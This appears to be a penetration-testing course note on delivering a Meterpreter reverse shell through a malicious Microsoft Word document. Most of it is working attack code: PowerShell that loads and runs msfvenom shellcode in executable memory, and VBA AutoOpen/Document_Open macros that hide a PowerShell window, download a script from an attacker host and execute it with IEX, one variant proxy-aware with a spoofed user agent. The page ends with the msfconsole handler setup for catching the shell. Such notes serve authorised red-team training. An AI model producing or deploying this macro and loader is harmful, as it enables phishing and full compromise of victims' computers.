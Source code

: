 ```yaml
---
title: PowerShell Shellcode in Word
layout: default
parent: Client Side Execution
nav_order: 2
---
```


Similar to CSharp, the theory is to:
1. Allocate memory with `VirtualAlloc(0, sizeOfShellcodeArray, 0x3000, 0x40)`
2. Copy shellcode using `[System.Runtime.InteropServices.Marshal]::Copy(shellcodeBuffer, 0, startAddress, $size)`. startAddress here is the return value of `VirtualAlloc()` in step 1.
3. Execute with `CreateThread(0, 0, startAddress, 0, 0, 0)`, and assign the value to `$thandle`
4. Don't exit the newly created thread even though our PowerShell is closed using `WaitForSingleObject($thandle, [uint32]"0xFFFFFFFF")`

First, generate the shellcode using msfvenom:

```
msfvenom -p windows/x64/meterpreter/reverse_https LHOST=IP LPORT=PORT EXITFUNC=thread -f ps1
```

Then put it into the Powershell code below for **64-bit**:

```powershell
$Shell32 = @"
using System;
using System.Runtime.InteropServices;

public class Shell32{
[DllImport("Kernel32.dll")]
public static extern IntPtr VirtualAlloc(IntPtr lpAddress, UIntPtr dwSize, uint flAllocationType, uint flProtect);

[DllImport("Kernel32.dll")]
public static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);

[DllImport("Kernel32.dll", SetLastError = true)]
public static extern uint WaitForSingleObject(IntPtr hHandle, uint dwMilliseconds);
}
"@

Add-Type $Shell32

[Byte[]] $buf = SHELLCODE HERE
$size = $buf.length
$sizeUIntPtr = New-Object System.UIntPtr $size
[IntPtr]$addr = [Shell32]::VirtualAlloc(0,$sizeUIntPtr,0x3000,0x40);
[System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $addr, $size)
$thandle=[Shell32]::CreateThread(0,0,$addr,0,0,0);
[Shell32]::WaitForSingleObject($thandle, [uint32]"0xFFFFFFFF")
```

Note:
* Can remove all the `[return: MarshalAs(...)]`
* Sometimes the DLL might not be correct, refer back to MSDN for the final confirmation

Official Solution from Offsec for **32-bit** (using `msfvenom -p windows/meterpreter/reverse_https LHOST=IP LPORT=PORT EXITFUNC=thread -f ps1`):

```powershell
$Kernel32 = @"
using System;
using System.Runtime.InteropServices;
public class Kernel32 {
  [DllImport("kernel32")]
  public static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);

  [DllImport("kernel32", CharSet=CharSet.Ansi)]
  public static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);

  [DllImport("kernel32.dll", SetLastError=true)]
  public static extern UInt32 WaitForSingleObject(IntPtr hHandle, UInt32 dwMilliseconds);
}
"@

Add-Type $Kernel32
[Byte[]] $buf = SHELLCODE HERE
$size = $buf.Length
[IntPtr]$addr = [Kernel32]::VirtualAlloc(0,$size,0x3000,0x40);
[System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $addr, $size)
$thandle=[Kernel32]::CreateThread(0,0,$addr,0,0,0);
[Kernel32]::WaitForSingleObject($thandle, [uint32]"0xFFFFFFFF")
```

Use this **(with proxy aware and user agent)**:

```vb
Sub MyMacro()
    Dim str As String
    str = "powershell -Command """
    str = str & "New-PSDrive -Name HKU -PSProvider Registry -Root HKEY_USERS | Out-Null; "
    str = str & "$keys = Get-ChildItem 'HKU:\'; "
    str = str & "ForEach ($key in $keys) {if ($key.Name -like '*S-1-5-21-*') {$start = $key.Name.substring(10);break}}; "
    str = str & "$proxyAddr=(Get-ItemProperty -Path 'HKU:$start\Software\Microsoft\Windows\CurrentVersion\Internet Settings\').ProxyServer; "
    str = str & "[System.Net.WebRequest]::DefaultWebProxy = New-Object System.Net.WebProxy('http://$proxyAddr'); "
    str = str & "$wc = new-object system.net.WebClient; "
    str = str & "$wc.Headers.Add('User-Agent', 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/123.0.0.0 Safari/537.36');"
    str = str & "$wc.DownloadString('http://192.168.45.169/run.ps1') | IEX"""
    Shell str, vbHide
End Sub

Sub Document_Open()
  MyMacro
End Sub

Sub AutoOpen()
  MyMacro
End Sub
```

Add this to a Microsoft Word Macro `AutoOpen()` **(without proxy aware and user agent)**:

```vb
Sub MyMacro()
  Dim str As String
  str = "powershell (New-Object System.Net.WebClient).DownloadString('http://IP/run.ps1') | IEX"
  Shell str, vbHide
End Sub

Sub Document_Open()
  MyMacro
End Sub

Sub AutoOpen()
  MyMacro
End Sub
```

Finally prepare for incoming shell **(remember to change to 32-bit if required)**:

```
sudo systemctl start apache2
msfconsole -q
use multi/handler
set payload windows/x64/meterpreter/reverse_https
set lhost IP
set lport PORT
exploit
```


To debug use

```
sudo tail /var/log/apache2/access.log
```
